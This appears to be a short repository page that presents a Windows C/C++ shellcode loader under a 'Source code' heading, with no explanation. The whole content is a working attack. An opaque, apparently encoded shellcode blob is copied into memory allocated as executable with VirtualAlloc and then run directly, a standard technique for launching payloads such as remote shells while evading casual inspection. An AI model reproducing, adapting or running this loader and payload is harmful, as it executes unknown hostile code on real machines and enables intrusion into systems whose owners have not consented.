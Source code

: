 ![img](images/2022-06-12_19-34.png)

```cpp
#include <stdio.h>
#include <windows.h>

int main() {
  unsigned char shellcode[] = "\xda\xc1\xd9\x74\x24\xf4\xbb\x71\x71\x62\x85\x5e\x2b\xc9\xb1"
    "\x31\x83\xee\xfc\x31\x5e\x14\x03\x5e\x65\x93\x97\x79\x6d\xd1"
    "\x58\x82\x6d\xb6\xd1\x67\x5c\xf6\x86\xec\xce\xc6\xcd\xa1\xe2"
    "\xad\x80\x51\x71\xc3\x0c\x55\x32\x6e\x6b\x58\xc3\xc3\x4f\xfb"
    "\x47\x1e\x9c\xdb\x76\xd1\xd1\x1a\xbf\x0c\x1b\x4e\x68\x5a\x8e"
    "\x7f\x1d\x16\x13\x0b\x6d\xb6\x13\xe8\x25\xb9\x32\xbf\x3e\xe0"
    "\x94\x41\x93\x98\x9c\x59\xf0\xa5\x57\xd1\xc2\x52\x66\x33\x1b"
    "\x9a\xc5\x7a\x94\x69\x17\xba\x12\x92\x62\xb2\x61\x2f\x75\x01"
    "\x18\xeb\xf0\x92\xba\x78\xa2\x7e\x3b\xac\x35\xf4\x37\x19\x31"
    "\x52\x5b\x9c\x96\xe8\x67\x15\x19\x3f\xee\x6d\x3e\x9b\xab\x36"
    "\x5f\xba\x11\x98\x60\xdc\xfa\x45\xc5\x96\x16\x91\x74\xf5\x7c"
    "\x64\x0a\x83\x32\x66\x14\x8c\x62\x0f\x25\x07\xed\x48\xba\xc2"
    "\x4a\xb6\x58\xc7\xa6\x5f\xc5\x82\x0b\x02\xf6\x78\x4f\x3b\x75"
    "\x89\x2f\xb8\x65\xf8\x2a\x84\x21\x10\x46\x95\xc7\x16\xf5\x96"
    "\xcd\x74\x98\x04\x8d\x54\x3f\xad\x34\xa9";
  void * mem;

  mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(mem, shellcode, sizeof(shellcode));
  ((void(*) ()) mem)();
  return 0;
}
```
